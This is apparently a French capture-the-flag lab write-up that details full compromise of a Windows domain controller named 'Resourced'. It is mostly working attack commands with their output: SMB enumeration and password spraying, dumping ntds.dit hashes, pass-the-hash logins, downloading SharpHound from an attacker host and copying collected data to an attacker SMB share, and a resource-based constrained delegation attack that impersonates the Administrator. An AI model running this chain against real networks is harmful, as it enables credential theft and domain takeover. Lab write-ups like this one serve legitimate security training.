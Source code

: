 # Resourced

	sudo  masscan -p1-65535,U:1-65535 192.168.184.175 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.184.175 -oN nmap.txt
	
Scans classiques.

	PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Simple DNS Plus
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-25 17:23:21Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    9389/tcp  open  mc-nmf        .NET Message Framing
    49666/tcp open  msrpc         Microsoft Windows RPC
    49667/tcp open  msrpc         Microsoft Windows RPC
    49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49671/tcp open  msrpc         Microsoft Windows RPC

En énumérant le SMB on récupère une grosse quantité d'utilisateurs dont un qui a son mot de passe en description parce qu'il vient d'arriver, mais j'ai décidé de faire une liste et de faire du password spraying pour tout vérifier : 

	enum4linux 192.168.184.175 | tee resultat.txt
	cat resultat.txt | grep "has member: resourced" | cut -d'\' -f 2 | sort -u > users.txt
	for nom in `cat  users.txt` ; do  smbclient -L //192.168.184.175/ -U $nom%'HotelCalifornia194!' -N ; done

Il n'y a bien que V.Ventz qui fonctionne. En revanche on voit un partage très intéressant : **Password Audit Disk**

    Sharename Type Comment  
    --------- ---- -------  
    ADMIN$ Disk Remote Admin  
    C$ Disk Default share  
    IPC$ IPC Remote IPC  
    NETLOGON Disk Logon server share  
    Password Audit Disk
    SYSVOL Disk Logon server share

Téléchargement de tous les fichiers dans le partage : 

    smbclient //192.168.184.175/'Password Audit'  -U V.Ventz%'HotelCalifornia194!'
    smb: \> mask ""  
	smb: \> recurse ON  
	smb: \> prompt OFF  
	smb: \> mget *
   
Résultat : 

	Active Directory  
	├── ntds.dit  
	└── ntds.jfm  
	registry  
	├── SECURITY  
	└── SYSTEM

Exploitation des fichiers et extraction des hashs : 

	impacket-secretsdump -ntds "Active Directory"/ntds.dit -system registry/SYSTEM LOCAL > dump.txt
	cat dump.txt | grep ":::" | cut -d: -f1,4 > hashs.txt

Finalement j'ai directement essayé chaque paire utilisateur / hash manuellement mais on aurait pu automatiser le processus avec CrackMapExec. La seule paire qui a fonctionné est L.Livingstone / 19a3a7550ce8c505c2d46b5e39d6f808 : 

	evil-winrm -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808 -i 192.168.184.175
    type C:\Users\L.Livingstone\Desktop\local.txt

Pivoting et élévation de privilèges : 

	iwr -Uri http://192.168.45.229/SharpHound.ps1 -Outfile .\SharpHound.ps1
	Import-Module ./SharpHound.ps1
	Invoke-BloodHound -CollectionMethod All
	net use * \\192.168.45.229\SMB
	Copy-Item 20230626004631_BloodHound.zip Z:\
	...
	impacket-smbserver smb ~/SMB -smb2support -debug
	sudo neo4j start
	bloodhound

Sur les graphes de BloodHound on remarque que notre utilisateur a les droits "CanRDP", "CanPSRemote" et "GenericAll" sur le contrôleur de domaine. Le dernier est très intéressant et ouvre des possibilités pour des attaques de type "Resource-based Constrained Delegation" notamment. On va pouvoir créer une autre machine, modifier son attribut **"msDS-AllowedToActOnBehalfOfOtherIdentity"** et usurper un administrateur pour obtenir son ticket Kerberos, que l'on utilisera pour se connecter au DC. 

Voir cet article : https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation

	impacket-addcomputer RESOURCED.LOCAL/L.Livingstone -dc-ip 192.168.184.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'CIBLE$' -computer-pass 'Mdp123'
	
	python3 rbcd.py -dc-ip 192.168.184.175 -t RESOURCEDC -f 'CIBLE' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 RESOURCED\\L.Livingstone
	
	impacket-getST -spn CIFS/resourcedc.resourced.local RESOURCED/Cible\$:'Mdp123' -impersonate Administrator -dc-ip 192.168.184.175
	
	export KRB5CCNAME=./Administrator.ccache
	
	echo "192.168.184.175 resourcedc.resourced.local" >> /etc/hosts
	
	impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.184.175

	type C:\Users\Administrator\Desktop\proof.txt
 
